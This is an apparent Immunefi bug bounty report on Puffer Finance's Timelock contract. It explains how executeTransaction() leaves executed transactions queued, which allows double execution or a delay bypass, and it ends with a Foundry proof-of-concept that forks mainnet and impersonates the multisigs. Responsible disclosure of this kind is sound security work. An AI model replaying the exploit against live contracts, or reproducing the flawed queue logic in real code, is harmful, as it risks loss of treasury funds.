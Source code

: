 
# Double spending or double execution of transaction is possible by passing delay period of Timelock contract

Submitted on Sun Mar 03 2024 14:33:14 GMT-0400 (Atlantic Standard Time) by @codesentry for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28971

Report type: Smart Contract

Report severity: Low

Target: https://etherscan.io/address/0x3C28B7c7Ba1A1f55c9Ce66b263B33B204f2126eA#code

Impacts:
- Protocol insolvency
- Permanent freezing of unclaimed yield
- Temporary freezing of funds for at least 1 hour

## Description
## Brief/Intro
COMMUNITY_MULTISIG wallet can execute the transaction queued by OPERATIONS_MULTISIG . Transaction is not removed from queue when COMMUNITY_MULTISIG execute it.  In this case OPERATIONS_MULTISIG can execute same transaction again. This is a sever bug and can cause double spending,  double execution of transaction. Even OPERATIONS_MULTISIG can execute tx without waiting for delay period to pass. All scenario explained in ## Impact Details section.

## Vulnerability Details
This bug is in `executeTransaction()` method of TimeLock contract.   OPERATIONS_MULTISIG queue a transaction and COMMUNITY_MULTISIG execute it by calling below method 

```executeTransaction(target, callData,operationId)```

Whenever COMMUNITY_MULTISIG execute it, it does not remove it from queue. This tx exist in queue even it has been executed by COMMUNITY_MULTISIG hence OPERATIONS_MULTISIG can execute it again. 

Steps
1.  OPERATIONS_MULTISIG calls 
``` timelock.queueTransaction(target, callData, 1);```

2. Time delay passed but actually transaction executed by COMMUNITY_MULTISIG. 
COMMUNITY_MULTISIG calls 
 timelock.executeTransaction(target, callData, 1);

3. OPERATIONS_MULTISIG is able to call same tx again even thought it has already been executed by COMMUNITY_MULTISIG.  
    OPERATIONS_MULTISIG calls below method successfully. 
timelock.executeTransaction(target, callData, 1);

This result in calling timelock.executeTransaction(target, callData, 1) two times. 

## Impact Details
Below are some scenario that explains the impact.  There are can be multiple scenarios exists but I writing two examples below

Scenario1: 
1) OPERATIONS_MULTISIG queue a transaction to upgrade implementation contract of PufferDepositor to implV2.  This upgrade is being done to fix a bug.  
2) After tx was queued, community found that bug is sever hence upgrade the proxy contract immediately by calling  timelock.executeTransaction(target, callData, 1) by COMMUNITY_MULTISIG. Now proxy's implementation contract is implV2. 
3) After few days community found that implV2 also has another sever bug hence it upgrade to implV3 by executing timelock.executeTransaction(target, callData, 2) immediately.
4) Previous queued transaction was not removed from queue.  OPERATIONS_MULTISIG calls timelock.executeTransaction(target, callData, 1) and upgrade proxy to old version which has some bug.  
Implication of this scenario is that proxy is upgraded to old version by OPERATIONS_MULTISIG without waiting for delay period. 

Scenario 2: 
Timelock contract is owner of some treasury contract.  Treasury contract has some ERC20 balance. 
1) OPERATIONS_MULTISIG queue a transaction to transfer 10 token to Alice for operationId =1 . 
2) COMMUNITY_MULTISIG execute this transaction and transfers 10 token to Alice.  3) OPERATIONS_MULTISIG execute same tx and transfer 10 more token because tx is not removed from queue.  
Net result is loss of asset or double spending of treasury asset. 


Upgrade from implV3 to implV2 is done with no waiting or delay period. This can have serious implication for users as proxy upgraded to older version that too without wait. 

Overall timelock contract has sever bug in executeTransaction(). Ideally this should remove the queued tx if already executed.

## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0 <0.9.0;

import {Test} from "forge-std/Test.sol";
import {IERC20} from "openzeppelin/token/ERC20/IERC20.sol";
import {Ownable} from "openzeppelin/access/Ownable.sol";

interface ITimeLock {
    function executeTransaction(
        address target,
        bytes calldata callData,
        uint256 operationId
    ) external returns (bool success, bytes memory returnData);

    function queueTransaction(
        address target,
        bytes memory callData,
        uint256 operationId
    ) external returns (bytes32);

    function delay() external view returns (uint256);

    function COMMUNITY_MULTISIG() external view returns (address);

    function OPERATIONS_MULTISIG() external view returns (address);
}

contract Treasury is Ownable {
    constructor(address _initialOwner) Ownable(_initialOwner) {}

    function transferAsset(
        IERC20 _token,
        address _recipient,
        uint256 _amount
    ) external returns (bool) {
        return _token.transfer(_recipient, _amount);
    }
}

contract TimeLockBugPOC is Test {
    // This is the keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1.
    bytes32 constant IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    ITimeLock public timelock;

    Treasury public treasury;

    address alice = makeAddr("alice");

    IERC20 CVX = IERC20(0x4e3FBD56CD56c3e72c1403e103b45Db9da5B9D2B);

    address COMMUNITY_MULTISIG;
    address OPERATIONS_MULTISIG;

    function setUp() public virtual {
        vm.createSelectFork(vm.envString("NODE_URL"));
        timelock = ITimeLock(0x3C28B7c7Ba1A1f55c9Ce66b263B33B204f2126eA);

        treasury = new Treasury(address(timelock));

        deal(address(CVX), address(treasury), 200e18);

        COMMUNITY_MULTISIG = timelock.COMMUNITY_MULTISIG();
        OPERATIONS_MULTISIG = timelock.OPERATIONS_MULTISIG();

        vm.label(COMMUNITY_MULTISIG, "COMMUNITY_MULTISIG");
        vm.label(OPERATIONS_MULTISIG, "OPERATIONS_MULTISIG");
    }

    function test_timelockBug() public {
        // step1: OPERATIONS_MULTISIG queue transaction to transfer 10 cvx
        vm.startPrank(timelock.OPERATIONS_MULTISIG());
        uint256 amountToTransfer = 10e18;
        bytes memory callData = abi.encodeCall(
            treasury.transferAsset,
            (CVX, alice, amountToTransfer)
        );
        timelock.queueTransaction(address(treasury), callData, 1);

        uint256 lockedUntil = block.timestamp + timelock.delay();
        vm.warp(lockedUntil + 1);
        vm.stopPrank();

        // step2: Community multisig execute the queued transaction
        vm.startPrank(timelock.COMMUNITY_MULTISIG());
        timelock.executeTransaction(address(treasury), callData, 1);
        assertEq(CVX.balanceOf(alice), amountToTransfer);

        // step3: Operation multisig execute queued transaction once again and Alice received 10 cvx 2 times
        vm.startPrank(timelock.OPERATIONS_MULTISIG());
        timelock.executeTransaction(address(treasury), callData, 1);

        assertEq(CVX.balanceOf(alice), 2 * amountToTransfer);
        vm.stopPrank();
    }
}

```
